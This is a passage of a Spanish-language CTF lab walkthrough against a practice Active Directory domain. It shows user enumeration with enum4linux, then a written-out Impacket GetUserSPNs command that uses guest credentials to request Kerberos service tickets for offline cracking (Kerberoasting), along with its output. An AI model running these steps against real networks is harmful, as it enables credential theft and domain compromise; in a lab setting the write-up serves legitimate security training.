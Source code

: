 ````bash
user:[pars] rid:[0x466]
user:[kevin] rid:[0x467]
user:[jon] rid:[0x468]
user:[Varg] rid:[0x469]
user:[evan] rid:[0x46a]
user:[Ben] rid:[0x46b]
user:[David] rid:[0x46c]
user:[password-reset] rid:[0x46e]
enum4linux complete on Wed May 18 14:44:23 2022

                                                                                                                                                                                               
mora@H3nT4i:~$
````
y veremos que nos dio una lista bastante extensa de usuarios, si van haciendo el procedimiento conmigo entonces les sera facil reconocer el usuario, con eso completado 

* pista: tiene el mismo nombre que la room

basicamente solo busque algun nombre que coincidiera con la ctf, entre ellos estaba ese usuario...

#### Busqueda de Vulnerabilidades:

usaremos la herramienta de impacket, para los que no sepan que es les dejare una
explicacion:

#### ¿Que es Impacket?

`Impacket es una colección de clases de Python para trabajar con protocolos de red. Impacket se enfoca en proporcionar acceso programático de bajo nivel a los paquetes y, para algunos protocolos (por ejemplo, SMB1-3 y MSRPC), la implementación del protocolo en sí. Los paquetes pueden construirse desde cero, así como analizarse a partir de datos sin procesar, y la API orientada a objetos simplifica el trabajo con jerarquías profundas de protocolos. La biblioteca proporciona un conjunto de herramientas como ejemplos de lo que se puede hacer dentro del contexto de esta biblioteca`

con esto aprendido podemos comenzar:

haremos un `impacket-GetUserSPNs 'COOCTUS.CORP/Visitor:GuestLogin!' -dc-ip 10.10.140.48 -request -outputfile TGS.txt`

````bash
┌──(samsepi0l㉿kali)-[~/CroccCrew]
└─$ impacket-GetUserSPNs 'COOCTUS.CORP/Visitor:GuestLogin!' -dc-ip 10.10.47.234 -request -outputfile TGS.txt
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

ServicePrincipalName  Name            MemberOf  PasswordLastSet             LastLogon                   Delegation  
--------------------  --------------  --------  --------------------------  --------------------------  -----------
HTTP/dc.cooctus.corp  password-reset            2021-06-08 17:00:39.356663  2021-06-08 16:46:23.369540  constrained 



                                                                                                                                                                
┌──(samsepi0l㉿kali)-[~/CroccCrew]
└─$ ls
10.10.47.234-Home_user.txt  TGS.txt
````

